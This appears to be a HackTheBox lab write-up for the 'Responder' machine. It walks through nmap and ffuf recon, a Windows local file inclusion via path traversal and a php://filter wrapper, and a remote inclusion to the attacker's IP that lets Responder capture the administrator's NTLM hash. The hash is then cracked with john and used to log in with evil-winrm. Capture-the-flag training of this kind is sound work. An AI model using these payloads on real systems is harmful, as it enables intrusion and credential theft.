## Responder HackTheBox
#### About Box

---
#### Step One: Recon
First thing is : `nmap`
```bash
nmap -A -sV --privileged -T4 10.129.121.226  -p- -O -sC -v
```
**`Result`**
|PORT|STATE|SERVICE|VERSION|
|----|----|----|----|
|80/tcp|open|http|Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)|
|5985/tcp|open|http|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)|

Result Description: **`Port 80`**
```terminal
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Unika
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

Result Description: **`Port 5985`**
```terminal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

Then we visit the site and with `wappalyzer` we can see bunch of stuffs about our site. The key features are:
- Running on PHP `8.1.1`
- Running on a Windows OS
- Has Apache server

now since we know what our web site title should be, we will `Fuzz` it for any interesting file/ directory.
```bash
ffuf -u http://unika.htb/FUZZ -w ~/custom-wl/OneListForAll/onelistforallmicro.txt -v -r -c -fc 404,403 -fs 46453
```
I got one:
- http://unika.htb/cgi-bin/printenv.pl
this is kinda weird and reviels internal file structures. This will help us.

Burp automatically discoverd a parameter called **`page=`**. let's take a look at it.

#### Step Two: Exploiting
We discoverd that our found parameter **`page`** loads file from the server. this might help us to get `LFI`. But this is a windows server so we have to use payload that follows windows filesystem.

in this case I've used: `../../../../../../../../windows/system32/drivers/etc/hosts`

and yes we get a `LFI`

**`Result`**
```terminal
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
-------<snip>------
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
We can also use **`PHP protocol`** to read internal PHP files as they can not be read from server side.

I've used this one to read the index.php:
```bash
php://filter/convert.base64-encode/resource=index.php
```
After decoding I got:
```php
<?php 
$domain = "unika.htb";
if($_SERVER['SERVER_NAME'] != $domain) {
  echo '<meta http-equiv="refresh" content="0;url=http://unika.htb/">';
  die();
}
if(!isset($_GET['page'])) {
  include("./english.html");
}
else {
  include($_GET['page']);
}       
```
>> More cool tricks are [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter)

Now we have to get into the server. HTB suggest that we can do it using a tool called `responder`. This will help us to capture the `Administartor Hash` via `RFI`.

To do so, all we have to do is to run `responder` with sudo and listen to `tun0` protocol as we are connected to the machine via VPN.

`sudo responder -I tun0`

after starting it we have to perform the **RFI**. It's not necessary to have a vaild file, all we need is the server to send us a request including the hash. so we will do it like:
```URI
http://unika.htb/index.php?page=//10.10.14.30/hehe.php
```
then we will see our responder got the admin hash which we will decrypt using `john`:

`john --wordlist=rockyou.txt hash.txt`

As we have the password for admin, we will try to get in now.

Remember we have port **5985** open? we will use this one to access. Upon searching, I've come to know that I can access it using `evil-winrm` tool

All you have to do:
`evil-winrm -u Administrator -p 'badminton' -i 10.129.122.152`

And the rest is upto you. 
>>>> Peace

